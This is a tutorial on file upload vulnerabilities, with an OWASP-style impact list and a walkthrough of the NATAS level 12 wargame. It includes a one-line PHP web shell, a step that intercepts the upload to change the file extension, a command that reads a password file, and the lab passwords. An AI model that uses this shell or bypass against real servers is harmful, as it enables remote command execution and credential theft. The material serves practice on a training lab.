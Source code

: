 # File upload vulnerability

## OWASP Description

> Various web applications allow users to upload files (eg images,music files etc). The uploaded files can create momentous risk if not handled in a secure way. Depending on the how the file is processed and where it is stored the impact of the file upload vulnerability may vary.

## Impact
- The attacker can get a web shell and execute various commands, browse system files and browse local resources etc.
- Make a phishing page in the website
- Make a permanent XSS in the website
- Uploaded sensitive files might be accessible by unauthorised people.
- Uploaded files might trigger vulnerabilities in broken libraries/applications on the client side.
- Uploaded files might trigger vulnerabilities in broken libraries/applications on the server side.
- Uploaded files might trigger vulnerabilities in broken real-time monitoring tools.

The impact of this vulnerability is high, a supposed code can be executed in the server context or on the client side. The likelihood of detection for the attacker is high. The prevalence is common. As a result, the severity of this type of vulnerability is high.
### Explore it yourself :
 Make a PHP file to test the vulnerability locally in your system with the code mentioned here.
 
  shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 

## Let's try a challenge

NATAS 12 :
 - USERNAME : natas12
 - PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 ![natas12](natas12.1.png)

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.

![natas12](natas12.3.png)

Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.
</br></br>
The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
</br></br>
![natas12](natas12.5.png)

 This is a basic example of File upload vulnerability.




